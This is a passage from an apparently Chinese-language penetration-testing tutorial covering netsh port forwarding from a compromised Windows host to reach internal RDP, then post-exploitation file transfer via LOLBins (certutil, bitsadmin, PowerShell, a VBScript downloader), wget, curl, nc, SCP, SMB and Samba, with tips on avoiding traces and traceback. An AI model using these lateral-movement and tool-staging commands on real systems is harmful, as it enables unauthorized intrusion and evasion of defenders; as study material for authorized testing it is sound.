[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  0.0.0.0:7890  ...  myip.ipip.net:80  ...  OK
当前 IP：81.70.14.219  来自于：中国 北京 北京  电信
```

##### netsh

Windows 之间没有 SSH 可以使用 netsh 端口转发。如果可以传输文件也可上传第三方隧道软件 lcx、htran。

使用 netsh 第一个条件是需要你是管理员权限，普通用户无法使用（普通用户运行会提示 “请求的操作需要提升(作为管理员运行)。”）。第二个条件需要 IP Helper 服务和网卡 Internet Protocol Version 6 (TCP/IPv6) 开启。

可以 services.msc 去查看对应服务状态。



在网卡配置处查看 IPv6 开启状态（我这里 WLAN、以太网默认都是关闭，在 IPv4 To IPv4 转发实验中也没失败）。



假设我们目前已经拿下 192.168.0.101 Windos11 主机管理员权限，又发现内网 192.168.0.102 主机远程桌面开启，我们可以用 netsh 本地端口转发访问目标。

在 192.168.0.101:8888 设置端口转发到 192.168.0.102:3389。

```plaintext
C:\Users\gbb\Desktop>netsh interface portproxy add v4tov4 listenport=8888 listenaddress=192.168.0.101 connectport=3389 connectaddress=192.168.0.102
```

查看本地端口已经监听

```plaintext
PS C:\Users\gbb> netstat -p tcp -n -a | findstr 8888
  TCP    192.168.0.101:8888     0.0.0.0:0              LISTENING
```

查看转发规则。

```plaintext
PS C:\Users\gbb> netsh interface portproxy show all

侦听 ipv4:                 连接到 ipv4:

地址            端口        地址            端口
--------------- ----------  --------------- ----------
192.168.0.101   8888        192.168.0.102   3389

PS C:\Users\gbb>
```

现在只要通过连接边界机 192.168.0.101:8888 就等同于连接到 192.168.0.102:3389。

此刻我们要通过内网另一个网段机器 192.168.0.104 访问 192.168.0.102:3389，发现网络不通，只能与 192.168.0.101 通信。那么可以直接连接 192.168.0.101:8888 端口达到此目的。

连到边界机机 192.168.0.101:8888 端口，很可能可能会被 Windows 防火墙给拦截，因为这台机器入站规则可能默认不允许连接到此端口，因此需要添加入站防火墙规则（需要管理员权限才能操作）。

添加这条名为 allow-rdp-port-access 防火墙规则，配置的是允许远程地址 192.168.1.104 进站流量访问本机 8888 端口。

```plaintext
netsh advfirewall firewall add rule name="allow-rdp-port-access" protocol=TCP dir=in remoteip=192.168.0.104 localport=8888 action=allow
```

通过 192.168.0.104 主机连接 192.168.0.101:8888 端口成功访问到 192.168.0.102:3389 端口。



下面了解如何删除转发规则（需要管理员权限操作）。

```plaintext
PS C:\Users\gbb> netsh interface portproxy show all

侦听 ipv4:                 连接到 ipv4:

地址            端口        地址            端口
--------------- ----------  --------------- ----------
192.168.0.101   8888        192.168.0.102   3389

PS C:\Users\gbb> netsh interface portproxy delete v4tov4 listenaddress=192.168.0.101 listenport=8888

PS C:\Users\gbb> netsh interface portproxy show all
```

也可以一次重置清空转发规则。

```plaintext
PS C:\Users\gbb> netsh interface portproxy show all

侦听 ipv4:                 连接到 ipv4:

地址            端口        地址            端口
--------------- ----------  --------------- ----------
192.168.0.101   8888        192.168.0.102   3389

PS C:\Users\gbb> netsh interface portproxy reset

PS C:\Users\gbb> netsh interface portproxy show all
```

## 4 文件传输

建立隧道或者内网横向时肯定要往服务器传文件，用 WebShell 就很方便。如果这台机器本身没有 WebShell，可以用系统自带程序下载文件，如 Linux 下 wget，Windows 下 certutil 证书工具。

本章节里面分 Windows 和 Linux 小节，意为使用自带功能进行传输文件，而使用有些工具原本意图不是用来下载文件的，比如说 certutil 就是证书管理工具，但是可以用来下载文件。这些利用合法工具来达到恶意操作的叫 LOLBins（Living Off the Land Binaries），有个项目叫 [LOLBAS](https://lolbas-project.github.io/) 介绍了 Windows 下所有可以用来帮助渗透的程序，Linux 有 [GTFOBins](https://gtfobins.github.io/)。

本章文件传输所涉及的工具，根据使用场景分三类 Windows、Linux、Program Language，在实际环境哪个工具方便用哪个。

| 工具  | 系统  |
| --- | --- |
| FTP | Windows |
| SFTP | Windows & Linux |
| Bitsadmin | Windows |
| Certutil | Windows |
| PowerShell | Windows |
| SCP | Windows & Linux |
| WSH | Windows |
| Wget | Linux |
| Curl | Linux |
| NC  | Windows & Linux |
| Git | Windows & Linux |
| SMB | Windows & Linux |
| PHP | Windows & Linux |
| Python | Windows & Linux |
| Ruby | Windows & Linux |
| Perl | Windows & Linux |

但传输要注意安全，不要明文传输，避免流量设备识别内容，不要用自己服务器传输文件，避免被溯源，可以找一个公网存在上传漏洞 Cloud Storage（别自己搭，小心被刷流量造成高价账单），或者已经拿下目标或者其他服务器传。

#### 4.1 FTP

服务端开启 FTP 服务。

```plaintext
pip install pyftpdlib
python3 -m pyftpdlib
```

还有部分选项可以指定：

-   \-i，指定 IP 地址（默认本机地址）
-   \-p，指定端口（默认 2121）
-   \-w，写权限（默认为只读）
-   \-d，指定目录 （默认为当前目录）
-   \-u，指定用户名登录
-   \-P，设置登录密码

客户端连接。

1.运行 `copy con <FileName>`，将 con 键盘输入设备上的内容复制到文件中，输入完成 `Ctrl + C`、`Ctrl + z + Enter` 结束输入将内容写入文件。要是实在没办法用这种法子，就老老实实输出重定向写内容。

```plaintext
open <Host> <Port>
anonymous
anonymous
get <Tool>
bye
```

open 是连接到 FTP 服务器，后面 anonymous 是账户，get 是下载文件，quit 断开连接。

真实利用中不会有交互式 Shell 使用，FTP 使用 -s 选项执行 `<FileName>` 中 FTP 命令解决。

```plaintext
ftp -s:<FileName>
```

### 4.2 SFTP⚒️

```plaintext
// 默认使用 SSH 连接到 22 端口。
sftp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@81.70.14.219

// 用 -P 指定 SSH 端口
sftp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -P <Port> root@81.70.14.219
```

为防止连接远程服务器在 known\_hosts 会留下主机 IP 和公钥信息，SFTP 同样支持 -o 选项，相关原理参考 [SCP](#SCP) 小节。

Linux 下非交互式下载（待验证）。

使用 `<Username>`、`<Password>` 连接到 `<Host>` 下载 `<FileName>`。

```plaintext
echo "sftp -n <Host> <<BLAH" >> file.sh
echo "quote USER <UserName>" >> file.sh
echo "quote PASS <Password>" >> file.sh
echo "bin" >> file.sh
echo "get <FileName>" >> file.sh
echo "quit" >> file.sh
echo "BLAH" >> file.sh
echo "exit 0" >> file.sh
chmod +x file.sh && ./file.sh
```

### 4.3 Bitsadmin

> Bitsadmin is a command-line tool used to create, download or upload jobs, and to monitor their progress  
> [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin)

```plaintext
bitsadmin /transfer <JobName> http://<Host>/<Filename> <SaveFileName>
```

### 4.4 Certutil

证书管理工具下载文件到当前目录。

```plaintext
certutil -urlcache -split -f http://<Host>/<Filename>
```

使用 certutil 下载的文件会原封不动在 `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content` 目录下保存一份，文件名位随机字符，使用 delete 可以删除刚下载的缓存。

```plaintext
certutil -urlcache -split -f http://<Host>/<Filename> delete
```

### 4.5 PowerShell

system.net.webclient

```powershell
powershell -c "(new-object system.net.webclient).downloadfile('http://<HOST>/<Filename>', '<Out-Filename>')"

powershell -c "$p=new-object system.net.webclient;$p.DownloadFile('http://<HOST>/<Filename>', '<Out-Filename>')"
```

invoke-WebRequest 可以简写成 iwr、wget、curl。

```powershell
powershell invoke-WebRequest -uri 'http://<HOST>/<Filename>' -OutFile '<Out-Filename>'
```

### 4.6 SCP⚒️

通过 Shell 使用 SCP 从工具服务器拷文件到受害机有 RSA key fingerprint 交互确认，如果第一次连接到机器，会让你确认是否接受，接受后，会保存目标机器公钥到 ~/.ssh/known\_hosts 文件内（Windows 则是 %USERPROFILE%.ssh\\known\_hosts），这个文件里面存在服务器 IP 和 公钥。

这里就有两个问题，怎么自动接受交互确认和不保存公钥信息到 known\_hosts 文件。

恰好 SCP 使用 -o 选项可以支持 ssh 选项达到目的。

```plaintext
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null [-P <Port>] [-C] [-r] <UserName>@<Host>:<Absolute File Path> <Dst Location>
```

`StrictHostKeyChecking=no` 可不做检查，不问 Yes 或 No，自动接受公钥添加到 known\_hosts 内。再配合 `UserKnownHostsFile=/dev/null`，可以指定存放到哪个 known\_hosts 文件内，这里直接丢弃。在 Windows 11 H2（22621.1702）测试中 UserKnownHostsFile 写 /dev/null 也没发现会新增文件。

还有几个选项没提到，-P 指定 SSH 端口，-C 启用 SSH 压缩，方便加快传输速度，-r 是复制目录。

虽然可以不记录到 known\_hosts，但是还是要输入密码才能下载文件，这里如何避免无密下载？还没说，可以参考 [https://blog.arstercz.com/ssh\_scp-auto-connect-note/，启用](https://blog.arstercz.com/ssh_scp-auto-connect-note/%EF%BC%8C%E5%90%AF%E7%94%A8) -o BatchMode=yes 选项。

### 4.7 WSH

WSH（Windows Scripting Host） 是用于自动化的脚本技术，这个脚本是 VBScript，如何运行呢？Windows 提供 CLI 版本 cscript.exe 和 GUI 版本 wscript.exe 去执行脚本。

cscript.exe 和 wscript.exe 主要区别在于交互 wscript 通过窗口输入输出数据，cscript 则是通过命令行。

将脚本保存为 ShowWindowsMessage.vbs 尝试使用 cscript 和 wscript 运行。

```plaintext
Dim message 
message = "Hell~"
MsgBox message
wscript.echo "Hi~"
```

wscript 分别弹两次框，内容是 Hell~ 和 Hi~。



而 cscript 只弹出 Hell~，Hi~ 通过控制台输出。

```plaintext
PS C:\Users\gbb\desktop> cscript.exe .\ShowWindowsMessage.vbs
Microsoft (R) Windows Script Host Version 5.812
版权所有(C) Microsoft Corporation。保留所有权利。

Hi~
```

另一个有趣的技巧是脚本文件后缀名可以是任意字符，或者删掉都成。只需加上 `/e:VBScript` 选项指定脚本引擎执行文件。

```plaintext
wscript.exe .\ShowWindowsMessage.doc
```

接着看看如何使用 VBScript 去下载文件。这里是在 PWK PEN-200 课件中发现的一种方式。

将脚本输出到 wget.vbs。

```plaintext
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

运行下载。

```plaintext
cscript wget.vbs http://<HOST>/<Filename> <Filename>

wscript wget.vbs http://<HOST>/<Filename> <Filename>

./wget.vbs http://<HOST>/<Filename> <Filename>
```

这个脚本缺点是不支持 https。下完后记得删除脚本 wget.vbs，避免留痕。

### 4.8 Wget

http。

```plaintext
// 下载文件到当前目录
wget http://<Host>/<FileName>

// -O 可以保存到指定目录
wget http://<Host>/<FileName> -O <FileName>
```

FTP。需要注意的是 FTP 连接端口和数据传输分别使用不同端口，默认数据传输模式是被动传输，也就是客户端要下载文件的时候，服务器需要随机开启一个数据传输端口，客户端通过连接此端口下载，如果服务器防火墙做了严格规则，此端口可能客户端连接不上，自然无法传输数据。你可能会想不是还有主动连接嘛，主动连接是客户端主动开放一个端口用于数据传输，如果防火墙也有限制，服务端就没法主动连接客户端开放的端口传文件。

```plaintext
// 匿名登录下载
wget ftp://host:port/file -O filename

// 禁用默认被动模式，启动主动模式。
wget ftp://host:port/file -O filename --no-passive-ftp

// 有账户的话添加如下选项，作为用户名和密码认证。
wget ftp://host:port/file -O filename --ftp-user=username --ftp-password=pass
wget ftp://<UserName>:<Password>@host:port/file -O filename
```

### 4.9 Curl

```plaintext
// Linux 下载文件到当前目录
curl http://<Host>/<FileName> -O

// Linux 下载文件保存到指定目录
curl http://<Host>/<FileName> -o <FileName>

// Windows -o 保存文件到指定目录
wget http://<Host>/<FileName> -O <FileName>
```

如果下载连接证书有问题，可以用 -k 跳过。

```plaintext
curl http://<Host>/<FileName> -O -k
```

### 4.10 NC

更多用途参见 [Netcat - raingray Blog](https://www.raingray.com/archives/438.html#%E4%BC%A0%E8%BE%93%E6%96%87%E4%BB%B6) 一文。

> Server 监听 333 端口接收 333 端口传过来的文件，输出重定向为 23.txt
> 
> ```plaintext
> nc -lp 333 > 23.txt
> ```
> 
> Client 连接到 1.1.1.1 333 端口 并把 1.txt 文件传过去，成功延迟 1 秒关闭连接。
> 
> ```plaintext
> nc -nv 1.1.1.1 333 < 1.txt –q 1
> ```
> 
> 下面是另一种用法。
> 
> Server 监听本机 333 端口，将333端口作为 a.mp4 文件的输入来源，也就是 a.mp4 将输入重定向到 333 端口。
> 
> ```plaintext
> nc -lp 333 < a.mp4
> ```
> 
> Client 连接到 1.1.1.1 333 端口后将 333 端口的内容输出重定向到当前文件夹下的 2.mp4 文件中，如果没有这个文件它会自动创建。
> 
> ```plaintext
> nc -nv 1.1.1.1 333 > 2.mp4
> ```

### 4.11 Git

语法也很简单直接，第一个参数是要克隆的仓库，第二个参数是仓库保存到当前目录的名称。

```plaintext
git clone <repository> [<directory>]
```

克隆支持常见 3 种 URL。

```plaintext
git clone ssh://[user@]host.xz[:port]/path/to/repo.git/
git clone git://host.xz[:port]/path/to/repo.git/
git clone http[s]://host.xz[:port]/path/to/repo.git/
```

### 4.12 SMB

#### 4.12.1 Windows File Sharing

创建共享。sharenaem 共享名称，Path 是要共享的资源路径，对 UserName 进行授予 READ 权限，还可以赋予 CHANGE、FULL 权限。

```plaintext
NET SHARE <ShareName>=<Path> /GRANT:<UserName>,READ
```

建立共享。将 C 盘做共享取名为 file，授权 everyone 用户读写权限。

```plaintext
PS C:\Users\gbb> NET SHARE file=C: /GRANT:everyone,FULL
file 共享成功。

PS C:\Users\gbb> NET SHARE

共享名       资源                            注解

-------------------------------------------------------------------------------
C$           C:\                             默认共享
IPC$                                         远程 IPC
ADMIN$       C:\Windows                      远程管理
file         C:\
命令成功完成。
命令成功完成。
```

建立共享这一操作需要使用管理员权限，否则将失败。

```plaintext
PS C:\Users\raingray> NET SHARE file=C: /GRANT:everyone,FULL
发生系统错误 5。

拒绝访问。
```

连接共享。用户名为 raingray 密码为 password 的账户登录到 192.168.0.102，将其共享资源 file 映射到本地 K 盘。

```plaintext
PS C:\Users\gbb\Desktop> NET USE K: \\192.168.0.102\file password /USER:raingray
命令成功完成。

PS C:\Users\gbb\Desktop> NET USE
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK           K:        \\192.168.0.102\file      Microsoft Windows Network
命令成功完成。

PS C:\Users\gbb\Desktop> K:
PS K:\> dir


    目录: K:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2022/9/29     14:58                Foxmail 7.2
d-----          2021/6/5     20:10                PerfLogs
d-r---          2022/9/7      9:47                Program Files
d-r---          2023/1/6     18:58                Program Files (x86)
d-r---          2022/2/4     17:39                Users
d-----         2023/1/10     14:10                Windows


PS K:\> 
```

删除共享。所有已经登录的 file 共享的连接将失效。

```plaintext
PS C:\Users\gbb> NET SHARE file /DELETE
file 已经删除。

PS C:\Users\gbb> NET SHARE

共享名       资源                            注解

-------------------------------------------------------------------------------
C$           C:\                             默认共享
D$           D:\                             默认共享
IPC$                                         远程 IPC
print$       C:\WINDOWS\system32\spool\drivers
                                             打印机驱动程序
ADMIN$       C:\WINDOWS                      远程管理
命令成功完成。
```

更多共享操作见 [Impacket-smbserver](#SMB:~:text=Standalone%20Server%20%2D%20SambaWiki-,Impacket%2Dsmbserver,-%E5%BC%80%E5%90%AF%20SMB2%20Server) 小节。

#### 4.12.2 Samba

Sabma 包含对 SMB 实现，使用此软件也能搭建 SMB 服务。

1.CentOS8 安装 Samba

搜 samba 包。

```plaintext
[root@VM-24-2-centos ~]# dnf search samba
Repository extras is listed more than once in the configuration
Last metadata expiration check: 0:01:06 ago on Sun 12 Feb 2023 11:11:15 AM CST.
=============================================================================================================== Name Exactly Matched: samba ================================================================================================================
samba.x86_64 : Server and Client software to interoperate with Windows machines
============================================================================================================== Name & Summary Matched: samba ===============================================================================================================
centos-release-samba411.noarch : Samba 4.11 packages from the CentOS Storage SIG repository
centos-release-samba412.noarch : Samba 4.12 packages from the CentOS Storage SIG repository
centos-release-samba413.noarch : Samba 4.13 packages from the CentOS Storage SIG repository
centos-release-samba414.noarch : Samba 4.14 packages from the CentOS Storage SIG repository
centos-release-samba415.noarch : Samba 4.15 packages from the CentOS Storage SIG repository
ipa-client-samba.x86_64 : Tools to configure Samba on IPA client
pcp-pmda-samba.x86_64 : Performance Co-Pilot (PCP) metrics for Samba
python3-samba.i686 : Samba Python3 libraries
python3-samba.x86_64 : Samba Python3 libraries
python3-samba-test.x86_64 : Samba Python libraries
samba-client.x86_64 : Samba client programs
samba-client-libs.x86_64 : Samba client libraries
samba-client-libs.i686 : Samba client libraries
samba-common.noarch : Files used by both Samba servers and clients
samba-common-libs.x86_64 : Libraries used by both Samba servers and clients
samba-common-tools.x86_64 : Tools for Samba servers and clients
samba-krb5-printing.x86_64 : Samba CUPS backend for printing with Kerberos
samba-libs.i686 : Samba libraries
samba-libs.x86_64 : Samba libraries
samba-test.x86_64 : Testing tools for Samba servers and clients
samba-test-libs.x86_64 : Libraries need by the testing tools for Samba servers and clients
samba-vfs-iouring.x86_64 : Samba VFS module for io_uring
samba-winbind.x86_64 : Samba winbind
samba-winbind-clients.x86_64 : Samba winbind clients
samba-winbind-krb5-locator.x86_64 : Samba winbind krb5 locator
samba-winbind-modules.i686 : Samba winbind modules
samba-winbind-modules.x86_64 : Samba winbind modules
samba-winexe.x86_64 : Samba Winexe Windows Binary
=================================================================================================================== Name Matched: samba ====================================================================================================================
samba-pidl.noarch : Perl IDL compiler
================================================================================================================== Summary Matched: samba ==================================================================================================================
ctdb.x86_64 : A Clustered Database based on Samba's Trivial Database (TDB)
```

安装

```plaintext
[root@VM-24-2-centos ~]# dnf install samba.x86_64 -y
Repository extras is listed more than once in the configuration
Last metadata expiration check: 0:00:03 ago on Sun 12 Feb 2023 11:17:06 AM CST.
Dependencies resolved.
============================================================================================================================================================================================================================================================
 Package                                                             Architecture                                            Version                                                            Repository                                             Size
============================================================================================================================================================================================================================================================
Installing:
 samba                                                               x86_64                                                  4.14.5-7.el8_5                                                     base                                                  848 k
Installing dependencies:
 samba-common-tools                                                  x86_64                                                  4.14.5-7.el8_5                                                     base                                                  500 k
 samba-libs                                                          x86_64                                                  4.14.5-7.el8_5                                                     base                                                  169 k

Transaction Summary
============================================================================================================================================================================================================================================================
Install  3 Packages

Total download size: 1.5 M
Installed size: 4.0 M
Downloading Packages:
(1/3): samba-libs-4.14.5-7.el8_5.x86_64.rpm                                                                                                                                                                                 402 kB/s | 169 kB     00:00    
(2/3): samba-common-tools-4.14.5-7.el8_5.x86_64.rpm                                                                                                                                                                         751 kB/s | 500 kB     00:00    
(3/3): samba-4.14.5-7.el8_5.x86_64.rpm                                                                                                                                                                                      1.0 MB/s | 848 kB     00:00    
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Total                                                                                                                                                                                                                       1.8 MB/s | 1.5 MB     00:00     
Running transaction check
Transaction check succeeded.
Running transaction test
Transaction test succeeded.
Running transaction
  Preparing        :                                                                                                                                                                                                                                    1/1 
  Installing       : samba-libs-4.14.5-7.el8_5.x86_64                                                                                                                                                                                                   1/3 
  Installing       : samba-common-tools-4.14.5-7.el8_5.x86_64                                                                                                                                                                                           2/3 
  Installing       : samba-4.14.5-7.el8_5.x86_64                                                                                                                                                                                                        3/3 
  Running scriptlet: samba-4.14.5-7.el8_5.x86_64                                                                                                                                                                                                        3/3 
  Verifying        : samba-4.14.5-7.el8_5.x86_64                                                                                                                                                                                                        1/3 
  Verifying        : samba-common-tools-4.14.5-7.el8_5.x86_64                                                                                                                                                                                           2/3 
  Verifying        : samba-libs-4.14.5-7.el8_5.x86_64                                                                                                                                                                                                   3/3 

Installed:
  samba-4.14.5-7.el8_5.x86_64                                                  samba-common-tools-4.14.5-7.el8_5.x86_64                                                  samba-libs-4.14.5-7.el8_5.x86_64                                                 

Complete!
```

2.配置 Samba

配置文件 /etc/samba/smb.conf。

```plaintext
# See smb.conf.example for a more detailed config file or
# read the smb.conf manpage.
# Run 'testparm' to verify the config is correct after
# you modified it.

[global]
        workgroup = SAMBA
        security = user

        passdb backend = tdbsam

        printing = cups
        printcap name = cups
        load printers = yes
        cups options = raw

[homes]
        comment = Home Directories
        valid users = %S, %D%w%S
        browseable = No
        read only = No
        inherit acls = Yes

[printers]
        comment = All Printers
        path = /var/tmp
        printable = Yes
        create mask = 0600
        browseable = No

[print$]
        comment = Printer Drivers
        path = /var/lib/samba/drivers
        write list = @printadmin root
        force group = @printadmin
        create mask = 0664
        directory mask = 0775
```

关于配置文件的含义可以查看 [man smb.conf](https://www.samba.org/samba/docs/current/man-html/samba.7.html) 或者去找 /etc/samba/smb.conf.example，它们都做了详尽的解释。

```plaintext
# section 名，可以自定义，后面连接时用作共享名称
[fileShare]
       # 注释
       comment = SMB 文件共享

       # 共享目录
       path = /srv/samba/fileSare/

       # 权限设置：只读
       read only = yes

       # 是否允许 Windows 资源管理器进行浏览 
       browsable = yes

       # 无需验证账户客户端可以匿名访问
       guest ok = no

       # path 共享目录内创建文件权限。其他人不能读写
       create mask = 0770

       # path 共享目录内创建目录权限，其他人不能读写
       directory mask = 0770

       # 允许用户 greg 和 pcusers 组内用户登录。如果不些此选项就所有 Samba 数据库内用户可以登录。
       # valid users = fileshare, @pcusers
       valid users = fileshare

       # 设置哪些主机允许链接
       # hosts allow = 127.0.0.1, 192.168.0.31, 192.168.0.32
       # 禁止哪些主机连接
       # hosts deny = 0.0.0.0/0

       # 用户 mary，用户组 students 内用户只能对共享目录有只读权限，不能写。
       # read list = mary, @students

       # 用户 mary，用户组 students 内用户对共享目录有读写权限。
       # write list = mary, @students

       # 指定使用哪些端口，默认开启 139 和 445。要放在 [global] 中用才生效。
       # smb ports = 445 139

       # 指定 SMB 协议最小版本，默认 SMB2_10
       # server min protocol = SMB2_24

       # 指定 SMB 协议版本，默认 SMB3
       # server max protocol = SMB3_11
```

验证配置文件是否正确，有问题会做出提示。

```plaintext
[root@VM-24-2-centos samba]# testparm 
Load smb config files from /etc/samba/smb.conf
Loaded services file OK.
Weak crypto is allowed

Server role: ROLE_STANDALONE

Press enter to see a dump of your service definitions
^C
```

启动应用

```plaintext
[root@VM-24-2-centos samba]# systemctl start smb.service && systemctl status smb.service
● smb.service - Samba SMB Daemon
   Loaded: loaded (/usr/lib/systemd/system/smb.service; disabled; vendor preset: disabled)
   Active: active (running) since Sun 2023-02-12 15:34:42 CST; 3s ago
     Docs: man:smbd(8)
           man:samba(7)
           man:smb.conf(5)
 Main PID: 3974474 (smbd)
   Status: "smbd: ready to serve connections..."
    Tasks: 4 (limit: 23720)
   Memory: 23.8M
   CGroup: /system.slice/smb.service
           ├─3974474 /usr/sbin/smbd --foreground --no-process-group
           ├─3974477 /usr/sbin/smbd --foreground --no-process-group
           ├─3974478 /usr/sbin/smbd --foreground --no-process-group
           └─3974479 /usr/sbin/smbd --foreground --no-process-group

Feb 12 15:34:41 VM-24-2-centos systemd[1]: Starting Samba SMB Daemon...
Feb 12 15:34:42 VM-24-2-centos smbd[3974474]: [2023/02/12 15:34:42.258620,  0] ../../lib/util/become_daemon.c:136(daemon_ready)
Feb 12 15:34:42 VM-24-2-centos smbd[3974474]:   daemon_ready: daemon 'smbd' finished starting up and ready to serve connections
Feb 12 15:34:42 VM-24-2-centos systemd[1]: Started Samba SMB Daemon.
```

不用重启程序，动态生效配置文件。

```plaintext
smbcontrol smbd reload-config
```

3.设置 Samba 用户

添加用户，不建立家目录，指定一个 Shell 不允许登录。创建 samba 账户前提是系统账户中必须存在此用户，不然无法创建。

```plaintext
useradd -M -s /usr/sbin/nologin fileshare
```

创建 Samba 用户 fileshare。smbpasswd 可以设置 Samba 用户密码，或者禁用、启用 Samba 账户。

```plaintext
[root@VM-24-2-centos samba]# smbpasswd -a fileshare
New SMB password:
Retype new SMB password:
Added user fileshare.
```

samba 是管理本地 Samba 数据库，我们来查看 Samba 服务有哪些用户。

```plaintext
[root@VM-24-2-centos samba]# pdbedit -L
fileshare:1001:
```

删除 samba 服务指定用户

```plaintext
smbpasswd -x <UserName>
```

创建出配置文件共享目录，并赋予权限，不让其他人能够进入。

```plaintext
